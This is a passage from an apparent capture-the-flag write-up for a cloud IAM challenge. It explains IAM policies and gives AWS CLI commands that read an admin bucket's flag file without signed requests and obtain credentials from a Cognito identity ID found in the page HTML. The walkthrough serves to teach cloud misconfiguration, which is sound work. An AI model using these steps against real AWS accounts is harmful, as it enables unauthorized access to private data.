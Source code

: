 We first list the objects within the resource designated in the IAM policy:

`aws s3 ls s3://thebigiamchallenge-admin-storage-abf1321/files/ --no-sign-request`

This reveals a couple of objects. The one we're interested is the `flag-as-admin.txt`. We download this file with the command below.

`aws s3 cp s3://thebigiamchallenge-admin-storage-abf1321/files/flag-as-admin.txt /tmp/ --no-sign-request`

## Challenge 5

```
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "VisualEditor0",
            "Effect": "Allow",
            "Action": [
                "mobileanalytics:PutEvents",
                "cognito-sync:*"
            ],
            "Resource": "*"
        },
        {
            "Sid": "VisualEditor1",
            "Effect": "Allow",
            "Action": [
                "s3:GetObject",
                "s3:ListBucket"
            ],
            "Resource": [
                "arn:aws:s3:::wiz-privatefiles",
                "arn:aws:s3:::wiz-privatefiles/*"
            ]
        }
    ]
}
```

### Understanding the Policy

this policy allows a user or role to perform analytics and sync operations across all resources of Mobile Analytics and Cognito Sync services. Additionally, it grants them the ability to list and retrieve objects from the wiz-privatefiles S3 bucket.

### Testing the Theory

You can examine the HTML page for the challaenge to find an identity ID for the AWS CLI. This can be used to generate valid AWS credentials.

`aws cognito-identity get-credentials-for-identity --identity-id "us-east-1:b293decf-cc8b-4082-96eb-70ba01c98d1e"`
